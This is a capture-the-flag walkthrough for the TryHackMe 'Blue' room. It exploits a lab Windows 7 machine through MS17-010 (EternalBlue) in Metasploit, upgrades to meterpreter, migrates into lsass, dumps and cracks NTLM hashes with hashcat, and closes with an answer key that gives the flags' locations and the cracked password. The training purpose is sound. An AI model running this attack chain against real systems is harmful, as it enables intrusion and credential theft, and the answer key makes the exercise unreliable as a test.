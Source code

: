 Hi!

Let's start!

1. To begin with, we must classically connect to a VPN using OpenVPN.
Go to your [profile](https://tryhackme.com/access), download the file to connect, go to "/Downloads" and create the new
terminal:

```$ openvpn <Name>.ovpn ```

2. After that, we open the quest no. 1 and launch the instance (Deploy).

3. After all this, we can slowly start. The first thing we do is scan the machine:

``` $ nmap -Pn <ip> ```

Scanning shows us the services and ports on which they operate. Let's try to find out about distribution.

```$ nmap -A -T 5 <ip> -vv```

We can see that the machine is Windows 7.

4. Now we need to find out what the machine is vulnerable to (ms ?? - ???). So we type:

```$ nmap --script vuln <ip> -vv```

And we see smb-vuln-ms17-010 ( ms17-010 ).

5. Now let's try to access the machine.

6. Run metasploit:

```$ msfconsole```

Search exploit to this susceptibility in msf:

```$ search ms17–010```

Now you see list available attacks. We due to the fact that we know the distribution, we choose this on Windows 7.

``` $ use 2 ``` (windows/smb/ms17_010_eternalblue)

7. Now we must find out what to options we must refill to attack:

```$ show options```

We see RHOST, so we complete it:

```$ set RHOSTS <ip>```

And run script:

```$ run```

We should access the console!

If necessary, make sure the exploit is working properly. Click enter and you should see a DOS shell.
Try to enter the shell background (CTRL + Z). If it fails, you may need to reboot the machine (deploy), but before that try running the script again and see if it works.

Push enter.

8. If you haven't entered the shell background (CTRL + Z). Find out on the internet how
convert shell to meterpreter in metasploit. What is the name of the post module we will use.
(Exact path, similar to the name of the exploit used).

9. Let's go back to the metasploit first:

```$ background```

Let's verify that the session still exists:

```$ session```

We should see information about the session, its type, etc.

10. Let's try to change shell to meterpreter:

```$ use multi/manage/shell_to_meterpreter```

Fill in all missing options to capture shell:

```
$ set LPORT 1234
$ set SESSION 1
```

Run:

```$ run```

If that doesn't work try create shell again.

11. Let's see the existing sessions:

```$ session```

We should see the second session, which is of type meterpreter.

Let's try to connect to it:

```$ sessions 2```

We should be able to see the meterpreter console.

12. Let's check if we escalated to NT AUTHORITY \ SYSTEM. Run this command to do this:

```$ getsystem```

We can freely change the shells from shell to meterpreter.

Let's check who we are:

```
$ shell
$ whoami
```

Now we back to meterpreter ( CTRL + Z ).

13. Just because we are a system does not mean that our process is also. Let's check the list of running processes:

```$ ps```

And remember the process id (PID).

14. Let's migrate the lsass.exe process. Having a meterpreter let's enter:

```$ migrate 708```

15. Let's dump non-primary user passwords for cracking later.

In our elevated shell (meterpreter) run the command:

```$ hashdump```

This will dump all password hashes on the computer if we have the appropriate permissions to do so.

Which user is not the default?

16. Copy the hashes to the file to crack. (these NTLM hashes, paste them as you see in the console).

Let's organize the hash to crack. (user: hash <- the last "cluster of letters" in the line after : and before :::)

e.g.
```Administrator:31d6cfe0d16(...)```

17. I will use the hashcat to crack the hash:

``` $ hashcat -a 0 -m 1000 <HashFile>.txt <WordlistToCrack e.g. rockyou.txt>.txt --force --username --show ```

After a while we should get the password to Jon (alqfna22)

18. Now let's look for the flags:

1) The first one is in C:\flag1.txt

2) Next in C:\Documents and Settings\Jon\Documents\flag3.txt

3) And the last one in C:\Windows\System32\config\flag2.txt

Each flag can be shown with a command: ```type```
e.g. ``` type flag1.txt ```

19. Congratulations you have completed all the tasks. Good luck!

// Completing the headings

Task 1.

2) 3

3) ms17-010

Task 2. 

2) exploit/windows/smb/ms17_010_eternalblue

3) RHOSTS

Task 3.

1) post/multi/manage/shell_to_meterpreter

2) SESSION

Task 4.

1) Jon

2) alqfna22

Task 5.

1) Write flag number 1

2) Write flag number 2

3) Write flag number 3 